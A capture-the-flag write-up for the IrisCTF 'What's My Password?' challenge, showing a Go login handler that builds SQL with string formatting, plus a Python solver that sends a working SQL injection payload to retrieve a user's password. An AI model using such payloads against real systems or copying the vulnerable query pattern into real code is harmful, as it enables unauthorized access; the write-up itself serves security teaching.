

# What's My Password? [422 Solves]

## Description



> [baby] Oh no! Skat forgot their password (again)!
>
> Can you help them find it?
>
> <https://whats-my-password-web.chal.irisc.tf> `whats-my-password.tar.gz`
>
> By: User

## Short Solution

SQL Injection

## Source Code

```console
$ tar ztf whats-my-password.tar.gz
whats-my-password/
whats-my-password/Dockerfile
whats-my-password/entrypoint.sh
whats-my-password/setup.sql
whats-my-password/src/
whats-my-password/src/go.mod
whats-my-password/src/go.sum
whats-my-password/src/main.go
whats-my-password/src/web/
whats-my-password/src/web/index.css
whats-my-password/src/web/index.html
whats-my-password/src/web/index.js
```

<details><summary>main.go</summary>

```go
package main

import (
	"database/sql"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/signal"
	"regexp"
	"syscall"

	_ "github.com/go-sql-driver/mysql"
)

var DB *sql.DB
var Mux = http.NewServeMux()
var UsernameRegex = `[^a-z0-9]`

type Account struct {
	Username string `json:"username"`
	Password string `json:"password"`
}

func startWeb() {
	fmt.Println("Starting very secure login panel (promise)")

	fs := http.FileServer(http.Dir("/home/user/web"))
	Mux.Handle("/", fs)

	Mux.HandleFunc("/api/login", func(w http.ResponseWriter, r *http.Request) {
		if r.Method != http.MethodPost {
			w.WriteHeader(http.StatusMethodNotAllowed)
			return
		}

		var input Account

		decoder := json.NewDecoder(r.Body)
		decoder.Decode(&input)

		if input.Username == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Username"))
			return
		}
		if input.Password == "" {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Missing Password"))
			return
		}

		matched, err := regexp.MatchString(UsernameRegex, input.Username)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			return
		}

		if matched {
			w.WriteHeader(http.StatusBadRequest)
			w.Write([]byte("Username can only contain lowercase letters and numbers."))
			return
		}

		qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

		query, err := DB.Query(qstring)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		if !query.Next() {
			w.WriteHeader(http.StatusUnauthorized)
			w.Write([]byte("Invalid username / password combination!"))
			return
		}

		var result Account
		err = query.Scan(&result.Username, &result.Password)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}
		encoded, err := json.Marshal(result)
		if err != nil {
			w.WriteHeader(http.StatusInternalServerError)
			fmt.Println(err)
			return
		}

		w.Write(encoded)
	})

	http.ListenAndServe(":1337", Mux)
}

func main() {
	fmt.Println("Establishing connection to MySql")
	db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
	if err != nil {
		fmt.Println(err)
		return
	}
	DB = db

	defer DB.Close()

	startWeb()

	sigChan := make(chan os.Signal, 1)
	signal.Notify(sigChan, syscall.SIGINT, syscall.SIGTERM)
	<-sigChan
}
```

</details>

<details><summary>setup.sql</summary>

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

</details>

## Solution

The flag is in the password of the skat user.

The below code has SQL injection Vulnerability:

```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

To log in as the skat user, send the payload for SQL injection by executing the following SQL query:

```sql
SELECT * FROM users WHERE username = "skat" AND password = "" OR username = "skat" AND 1="1"
```

solver.py

```python
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False

# BASE_URL = "http://localhost:1337"
BASE_URL = "https://whats-my-password-web.chal.irisc.tf"


def main():
    r = s.post(
        f"{BASE_URL}/api/login",
        json={"username": "skat", "password": '" OR username="skat" AND 1="1'},
    )
    print(r.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```

## Flag

irisctf{my_p422W0RD_1S_SQl1}
